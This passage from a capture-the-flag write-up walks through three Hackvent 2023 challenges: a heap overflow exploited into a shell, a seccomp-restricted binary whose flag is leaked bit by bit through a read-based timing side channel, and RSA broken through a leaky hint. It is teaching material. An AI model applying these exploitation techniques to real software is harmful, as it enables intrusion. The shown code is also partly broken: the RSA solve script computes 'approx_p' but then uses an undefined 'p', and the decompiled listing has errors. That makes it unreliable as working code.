Flag: **HV23{sup3r-h1dd3n-k3yg3n-fl4g}**


## [HV23.21] Shoppinglist (fabi07)
### Description
> Santa still needs to buy some gifts, but he tends to forget things easily. That’s why he created his own application: A shopping list with state-of-the-art hacker protection.
### Solution
This challenge sadly had a really easy unintended vulnerability, but as the author i will show the intended solution here. When opening the binary in a disassembler like ghidra, you can find that the binary looks like clasical heap exploitation. There is a menu where you can chose a action and all these actions interact in some way with the heap. If you change a quantity of a item to 1337, the code leaks you the address of the win function.
```c
if(items[itemID]->nameLength==1337) 
      printf("You've found my little secret, as a reward you will get: %p\n\n", win);
``` 
Additionaly there is a bufferoverflow in the edit name functionality.
```c
gets(items[itemID]->name,items[itemID]->count+1, stdin);
``` 
Using this bufferoverflow, you can leak a libc address by firstly filling the tcache bins, then freeing a big chunk, which will go into the unsorted bins and consequently will have a libc pointer and lastly filling the space upto the address with data. When you then print the data, you have a libc pointer. When using the bufferoverflow again, you can overwrite the pointers in the items struct which gives you a arbitrary write/read. Using this read/write primitive, you can leak a stack address from the environ pointer in the libc. You can then just overwrite a return address with the win funtion and you get your shell. When printing the flag, you get a ascii qr code which contains the flag.


A complete solve.py can be found [here](./21-Shoppinglist/solve.py).

Flag: **HV23{heap4the_win}**

# Leet
## [HV23.22] Secure Gift Wrapping Service (darkice)
### Description
> This year, a new service has been launched to support the elves in wrapping gifts. Due to a number of stolen gifts in recent days, increased security measures have been introduced and the gifts are being stored in a secret place. As Christmas is getting closer, the elves need to load the gifts onto the sleigh, but they can’t find them. The only hint to this secret place was probably also packed in one of these gifts. Can you take a look at the service and see if you can find the secret?
### Solution
In the handout there is a libc, the challenge binary, Dockerfile and example flag file. I then loaded the challenge binary into ghidra and got after some disassembly this:
```c
void main(){
  char recipient [264];

  setvbuf(stdin, 0x0, 2, 0);
  setvbuf(stdout, 0x0, 2, 0);

  puts("Welcome to the secure gift wrapping service!\n");
  printf("Who should the gifts be for? ");
  fgets(recipient, 20, stdin);
  printf("Processing the wishes of ");
  printf(recipient);

  for (int i = 0; i < 5; i++) {
    printf("\nName a wish: ");
    fgets(recipient, 512, stdin);
    strncpy(&gifts + i * 32),recipient,0x100);
    puts("Succesfully wrapped the gift!");
  }
  puts("\nAll gifts were wrapped and will be stored securely in a secret place ...");

  seccomp = seccomp_init(0);
  seccomp_rule_add(ctx,0x7fff0000,0x3c,0);
  seccomp_rule_add(ctx,0x7fff0000,0xe7,0);
  seccomp_rule_add(ctx,0x7fff0000,0,0);
  seccomp_rule_add(ctx,0x7fff0000,2,0);
  seccomp_rule_add(ctx,0x7fff0000,0x101,0);
  seccomp_rule_add(ctx,0x7fff0000,9,0);
  seccomp_rule_add(ctx,0x7fff0000,3,0);
  seccomp_load(ctx);
  seccomp_release(ctx);

  FILE *secret = open("secret.txt", O_RDONLY);
  read(secret, &gifts, 0x100);
  close(secret);

  long secret = rand();
  void* secretLocation = mmap(secret * 4096, 4096, PROT_READ | PROT_WIRTE, MAP_PRIVATE | MAP_ANONYMOUS, 0, 0);
  *secretLocation = gifts;
  secretLocation[191] = 0;
  void *rest = secretLocation % 8;
  void *current = &gifts - rest;
  secretLocation = (secretLocation + 1) & 0xfffffffffffffff8;

  for (int j = rest + 192; j != 0; j--) {
    *secretLocation = *current;
    current++;
    secretLocation++;
  }

  memset(&gifts,0,0x600);
}
```
The above code basically does the following:
- It reads a input from the user and then prints it with printf -> formatstring vulnerability
- It ready 5 times a string from the user into recipient which then gets copied into the gifts struct -> bufferoverflow
- It initializes and configures a seccomp filter which restricts the available syscalls
- It reads the flag and writes it into the gifts struct
- It copies gifts to a "secret" location
Given the above mentioned vulnerabilities, this would normally be a quite straight forward challenge, but the seccomp filter complicates things. The seccomp rules can be dumped with [seccomp-tools](https://github.com/david942j/seccomp-tools):

```
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x0b 0xc000003e  if (A != ARCH_X86_64) goto 0013
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x08 0xffffffff  if (A != 0xffffffff) goto 0013
 0005: 0x15 0x06 0x00 0x00000000  if (A == read) goto 0012
 0006: 0x15 0x05 0x00 0x00000002  if (A == open) goto 0012
 0007: 0x15 0x04 0x00 0x00000003  if (A == close) goto 0012
 0008: 0x15 0x03 0x00 0x00000009  if (A == mmap) goto 0012
 0009: 0x15 0x02 0x00 0x0000003c  if (A == exit) goto 0012
 0010: 0x15 0x01 0x00 0x000000e7  if (A == exit_group) goto 0012
 0011: 0x15 0x00 0x01 0x00000101  if (A != openat) goto 0013
 0012: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0013: 0x06 0x00 0x00 0x00000000  return KILL
```
Due to the seccomp filter, you can only use open, mmap, close, read. On first glance those syscalls seem useless, as the flag is already in memory to be more exact in the "secret" locations. But this "secret" location which is initalized with a random address is actually allways at the same location because the prng isn't seeded. But just writing the flag to stdout isnt possible due to the seccomp filter. Insted it is actually possible to perform a timing attack with read, because if you call read, the process will wait for input. With this primitive we can extract 1 bit of the flag at a time.   
I then used strncpy to copy one character of the flag into a register which i then anded with a value which resulted in either 0 or the value. Based on this I then either crashed or called read. The final ropchain in c looks like:
```c
char c;
strncpy(flag + characterNumber, c, 1);
c = c & (1 << bit);
if (c != 0) {
    read(0, gifts, 1);
} else {
    // crash
}
```

The complete solve.py can be found [here](./22-/solve.py)

Flag: **HV23{t1m3_b4s3d_s3cr3t_exf1ltr4t10n}**

## [HV23.23] Roll your own RSA (cryze)
### Description
> Santa wrote his own script to encrypt his secrets with RSA. He got inspired from the windows login where you can specify a hint for your password, so he added a hint for his own software. This won't break the encryption, will it?
### Solution
For this challenge we are given the [sourcecode](./23-/) and the [output](./23-Roll-your-own-RSA/output.txt) of one run. In the code we find that both x,y are importet from another file and are both under 1000 which seems to suggest to use bruteforce. 
```py
from secret import FLAG, x, y
import random

# D = {x∈ℕ | 0 ≤ x ≤ 1000}
# D = {y∈ℕ | 0 ≤ y ≤ 1000}
```
Indeed, you can bruteforce y quite easily as there exists only one y which fits the given output. From there i tried to solve the equation with z3 which failed due to z3 not beeing able to solve the equation in a reasonable time, but with sage it is apparently possible. But if you look closly at the generation of the hint,
```py
p = getStrongPrime(512)
q = getStrongPrime(512)

...

hint = p**3 - q**8 + polynomial_function(x=x)  
```
you can notice that the result polynomial function is quite small. Additionally it is noteworty that -q**8 is much bigger than p\*\*3. If we calculate the 8th root of the absolute part of the solution, we actually get q. From there it is trivial to calculate p from N and then implement the standart rsa algorithm.

```py
from sage.all import *

N=143306145185651132108707...
e=65537
hint=-36736786172769290028...
encrypted=7279276277823216...

q = round(abs(hint)**(1/8))

# Find p using N and q
approx_p = N // q

# Calculate phi and the decryption exponent d
phi = (p - 1) * (q - 1)
d = inverse_mod(e, phi)

# Decrypt the flag
decrypted = power_mod(encrypted, d, N)
flag = int(decrypted).to_bytes((decrypted.nbits() + 7) // 8, byteorder='big').decode()
print(flag)
```
The complete solve.sage can be found [here](./23-Roll-your-own-RSA/solve.sage)
     
Flag: **HV23{1t_w4s_4b0ut_t1m3_f0r_s0me_RSA_4g41n!}**